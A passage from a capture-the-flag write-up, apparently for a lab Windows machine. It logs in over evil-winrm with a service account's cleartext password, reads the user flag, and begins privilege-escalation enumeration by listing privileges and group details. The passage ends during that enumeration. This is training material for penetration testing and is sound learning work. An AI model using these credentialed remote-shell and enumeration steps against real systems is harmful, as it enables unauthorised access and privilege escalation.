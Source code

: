 ```bash
❯ evil-winrm -i 10.129.78.30 -u 'svc-printer' -p '1edFg43012!!'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

We are in!

Inside the Desktop we can find the first flag:
```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
8e07dd641f06c03b7***************
```
# **```Privilege escalation```**

Now we have to figure out our way to **root.txt** so we start the basic enumeration until we find something interesting:

- Checking for privileges:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

- Checking for group memberships:
```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
```